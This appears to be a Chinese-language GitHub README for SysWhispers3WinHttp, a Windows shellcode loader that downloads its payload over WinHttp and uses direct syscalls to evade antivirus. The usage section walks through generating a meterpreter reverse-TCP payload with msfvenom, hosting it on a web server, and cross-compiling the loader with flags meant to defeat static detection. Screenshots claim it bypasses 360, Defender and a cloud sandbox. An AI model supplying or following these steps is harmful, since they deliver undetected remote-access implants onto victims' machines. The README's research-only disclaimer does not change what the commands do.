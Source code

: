 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，在Linux下使用GCC进行交叉编译。

## 0x00 免责声明

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x01 更新日志

2023/06/06 支持64位GCC编译与Stager方式上线SliverC2，增添编译参数绕过静态检测。

2023/07/03 支持64位程序在Windows 7 x64上线。

## 0x02 使用

```
// 1. 使用msfvenom生成Shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=x.x.x.x lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址，使用Linux64位GCC进行交叉编译
x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1

// ps. 或修改SysWhispers3WinHttp.c第4行头文件为syscalls.h，修改第40行IP地址，使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp
```

## 0x03 演示

360核晶（2023/06/06更新）
![360](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/f02a6de4-d6db-4012-91f8-e75df30f49ab)

Defender（2023/06/06更新）
![WD](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/33e47a93-59ba-48b1-aecb-ffb11dad66bc)

微步云沙箱
![threatbook](https://github.com/huaigu4ng/SysWhispers3WinHttp/assets/128464183/bfd99aee-6f82-4960-a461-12c1b83b594a)

## 0x04 参考链接
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
